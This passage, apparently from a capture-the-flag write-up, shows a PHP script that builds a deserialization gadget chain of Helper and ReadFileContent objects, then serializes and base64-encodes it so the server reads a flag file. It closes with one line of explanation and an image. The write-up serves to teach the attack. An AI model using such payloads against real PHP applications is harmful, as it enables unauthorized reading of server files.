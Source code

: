 ```php
        echo $this->msg;
    }

    function __toString() {
        echo "helper to string called\n";
        global $checker;
        $checker = true;
        return (new ReadFileContent($this->msg,"temp"))->check;
    }
}

// Create ReaFileContent object
$readFileContent = new ReadFileContent("nun", "index"); # check property is not CERT to avoid exit in line 9
$readFileContent -> check = "CERT"; # change the check property to CERT, after finishing the constructor

// Create objects
$helper1 = new Helper();
$helper2 = new Helper();
$helper2 -> msg = $readFileContent;
$helper1 -> msg = $helper2;

// // Serialize the object
$serialized = serialize($helper1);
echo base64_encode($serialized) . "\n\n";

// Deserialize the object
$obj = unserialize($serialized); # Deserializing to test our payload, tesing local before on the server

?>
```

- this is the script after editing it to make it easier to understand, make sure you create `index.php` file containing a flag

![Untitled](/assets/images/ropcorn/Untitled%201.png)
